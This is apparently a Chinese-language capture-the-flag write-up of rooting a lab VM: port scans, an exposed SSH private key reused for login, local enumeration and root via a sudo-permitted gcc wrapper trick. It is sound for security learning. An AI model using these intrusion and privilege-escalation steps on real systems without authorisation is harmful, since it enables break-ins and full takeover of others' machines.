### 信息收集

推荐用以下新的思路顺序

```
nmap -sT -sV -sC -O -p- --min-rate 10000 192.168.174.136 -oA /nmapscan/tcp
```



```
nmap -sU --min-rate 10000 --top-ports=40 192.168.174.136 -oA /nmapscan/udp
```



先整体扫描

```
nmap -p22,80 --script=vuln 192.168.174.136
```



总体就是先确定有哪些端口开放，再进行详细的端口扫描，这个靶机我在扫描过程中忽略了--script=vuln这个参数

------

得知只有22，80开放，在漏洞扫描中又发现http枚举中有一个/d41d8cd98f00b204e9800998ecf8427e.php

- 先查看网页



- 查看源代码



提醒我们不要再robots.txt上浪费时间

- 先查看，那个奇怪的php文件。并且同步进行目录爆破



目录爆破发现一个key.php



是一个输入key的页面，没什么关键信息，那就接下来查看那个php

```
view-source:http://192.168.174.136/d41d8cd98f00b204e9800998ecf8427e.php
```



很明显是一个openssh私钥文件

直接把网址的内容复制下来，通过echo命令写入rsa文件

```
file rsa
```



检查文件是否正确

```
chmod 600 rsa
```

- 只有这种权限的rsa文件才能直接用于ssh登录（用于ssh登录的文件，可以忽略内容，只需要确定文件类型，登录过程中会自动解密）

因为目前不知道用户名，先将内容另外进行base64解码查看

```
echo '*****' | base64 -d
```



可以看到用户名mpampis

```
ssh -i rsa mpampis@192.168.174.136
```

通过ssh2john rsa > hash发现没有密码，说明可以直接登录



成功进入用户



得到第一个flag

```
ls -la
```



进行信息收集

```
find / -writable -type f 2>/dev/null | grep -v proc | grep -v sys
```



```
find / -perm -4000 -type f 2>/dev/null
```



没有发现什么可以用的地方

```
sudo -l
```

查看当前用户可用的root权限



发现关键点

/usr/bin/gcc是用户可以不用密码就可以运行的

gcc命令的漏洞我们可以在GTFOBins中查看



```
sudo gcc -wrapper /bin/sh,-s .
```

(一定要带上sudo，这样才是在root权限下执行这条命令，并启动一个bash)



成功拿到root权限